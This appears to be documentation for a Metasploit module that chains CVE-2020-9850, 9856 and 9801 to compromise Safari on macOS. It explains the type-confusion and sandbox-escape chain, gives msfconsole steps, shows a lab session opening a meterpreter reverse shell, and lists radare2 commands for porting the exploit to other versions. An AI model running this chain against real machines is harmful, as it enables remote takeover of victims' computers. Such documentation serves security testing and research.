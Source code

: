 ## Vulnerable Application

This module exploits an incorrect side-effect modeling of the 'in' operator.
The DFG compiler assumes that the 'in' operator is side-effect free, however
the `<embed>` element with the PDF plugin provides a callback that can trigger
side-effects leading to type confusion (CVE-2020-9850).

The type confusion can be used as addrof and fakeobj primitives that then
lead to arbitrary read/write of memory. These primitives allow us to write
shellcode into a JIT region (RWX memory) containing the next stage of the
exploit.

The next stage uses CVE-2020-9856 to exploit a heap overflow in CVM Server,
and extracts a macOS application containing our payload into /var/db/CVMS.
The payload can then be opened with CVE-2020-9801, executing the payload
as a user but without sandbox restrictions.

## Verification Steps

1. Start `msfconsole`
1. `use exploit/osx/browser/safari_in_operator_side_effect`
1. `set LHOST <tab>`
1. `set SRVHOST <tab>`
1. `exploit`
1. Visit the URL on a vulnerable version of Safari

## Scenarios

### macOS Catalina 10.15.4

```
msf6 > use exploit/osx/browser/safari_in_operator_side_effect
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/safari_in_operator_side_effect) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(osx/browser/safari_in_operator_side_effect) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(osx/browser/safari_in_operator_side_effect) > set URIPATH /
URIPATH => /
msf6 exploit(osx/browser/safari_in_operator_side_effect) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(osx/browser/safari_in_operator_side_effect) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.4     safari_in_operator_side_effect - Request / from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1 Safari/605.1.15
[+] 192.168.56.4     safari_in_operator_side_effect - Safari version 13.1 appears to be vulnerable
[*] 192.168.56.4     safari_in_operator_side_effect - Request /LmcM.pdf from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1 Safari/605.1.15
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (799916 bytes) to 192.168.56.4
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.4:49409) at 2020-09-04 15:05:52 +0800
```

### Adding offsets for new versions

Although all macOS versions below 10.15.4 are vulnerable, some versions are not
supported. It may be possible to add support for a vulnerable version by adding
new offsets. The following commands can be used to gather some of these offsets:

```
brew install radare2
r2 /System/Library/Frameworks/JavaScriptCore.framework/Versions/Current/JavaScriptCore -2qQ -c 'af; s sym.imp.confstr; s'
r2 /usr/lib/system/libsystem_c.dylib -2qQ -c 'af; s sym._confstr; s'
r2 /usr/lib/system/libsystem_c.dylib -2qQ -c 'af; s sym.imp.dlsym; s'
r2 /usr/lib/system/libsystem_c.dylib -2qQ -c 'af; s sym.imp.dlopen; s'
```

You can then add the offsets to the module:
`modules/exploits/osx/browser/safari_proxy_object_type_confusion.rb`

You may also need to adjust the offsets here:

`external/source/exploits/CVE-2020-9850/payload/sbx/safari.mm:53`

Please don't forget to contribute the offsets back to the framework if you have
successfully tested them.

